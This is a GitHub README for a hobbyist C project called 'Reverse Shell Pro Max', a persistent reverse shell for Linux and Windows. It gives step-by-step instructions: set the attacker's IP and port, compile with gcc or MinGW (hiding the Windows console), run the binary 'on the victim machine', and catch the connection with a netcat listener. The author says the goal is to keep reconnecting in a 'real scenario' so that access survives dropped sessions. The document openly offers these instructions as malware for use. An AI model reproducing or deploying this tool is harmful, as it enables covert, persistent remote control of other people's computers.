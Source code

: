 # Project_Reverse Shell Pro Max (Project_RSPM)

Read more about it in descreption or down below...

---

## Project Structure

The repository is structured as follows:


- **Project_RSPM_UNIX**: Contains C code designed to work on **Linux** systems.
- **Project_RSPM_WIN**: Contains C code designed to work on **Windows** systems.

---

## Features

- **Persistent Connection**: Continuously sends connection requests every second until successful.
- **Automatic Reconnection**: If the connection drops, the reverse shell payload automatically attempts to reconnect.
- **Target Specific IP and Port**: Easily change the IP and port where the reverse shell connects.
- **Works on Linux and Windows**: Separate codebases for each platform, with instructions for compiling and running.

---

## Installation and Usage

### 1. **Linux**

#### Step 1: Modify IP and Port
- Open the C file (`reverse_shell_6th_try_somehow_working.c`) located in the **Project_RSPM_UNIX** folder.
- Modify the `IP` and `PORT` to match the attacker's machine IP and desired port.

    ```c
    #define IP "192.168.100.215" // Replace with your attacker's IP
    #define PORT 4444            // Replace with your desired port
    ```

#### Step 2: Compile the C Code
- Compile the C code using `gcc`:

    ```bash
    gcc -o reverse_shell reverse_shell_6th_try_somehow_working.c
    ```

#### Step 3: Run the Payload
- Run the compiled reverse shell executable on the victim machine:

    ```bash
    ./reverse_shell
    ```

#### Step 4: Listen for Connections
- On your attacker's machine, use `nc` or another listening tool to catch the reverse shell connection:

    ```bash
    nc -lvnp 4444
    ```

---

### 2. **Windows**

#### Step 1: Modify IP and Port
- Open the C file (`reverse_shell_3rd_try_somehow_working.c`) located in the **Project_RSPM_WIN** folder.
- Modify the `IP` and `PORT` to match the attacker's machine IP and desired port.

    ```c
    #define IP "192.168.100.215" // Replace with your attacker's IP
    #define PORT 4444            // Replace with your desired port
    ```

#### Step 2: Install MinGW
- Install MinGW for compiling C code on Windows. If you don't have it installed, use the following command:

    ```bash
    sudo apt install mingw-w64
    ```

#### Step 3: Compile the C Code for Windows
- Compile the C file using the MinGW cross-compiler:

    ```bash
    x86_64-w64-mingw32-gcc reverse_shell_3rd_try_somehow_working.c -o reverse_shell.exe -lws2_32 -mwindows
    ```

#### Step 4: Run the Payload
- Run the compiled executable on the victim’s Windows machine:

    ```bash
    ./reverse_shell.exe
    ```

#### Step 5: Listen for Connections
- On the attacker's machine, listen for the reverse shell connection:

    ```bash
    nc -lvnp 4444
    ```

---

## Contributors

Feel free to open an issue or submit a pull request for improvements or new features. Contributions are welcome!

---

## Incomplete...

This project is incomplete and i made it as i am just a starter to code in c and its somehow working but hope some experienced c programmer will modify it or contribute here...

## ScriptKiddy -> TheGreen
Just random thought came to my mind while using msfvenom payload that if we are disconnected mistakenly, then we have to re-run the payload on the victim's machine. In testing, it's fine, but in a real scenario, it's simply not possible to re-run the payload or something like that situation may occur. I thought about this and I don't know if something like this is already available on GitHub or somewhere on the internet, but this repo is just a ScriptKiddy thought and made so that after running it once, we can connect to it whenever we want. If we are connected, it doesn't send the connection request, and if disconnected, it starts sending the connection request every second and loop...
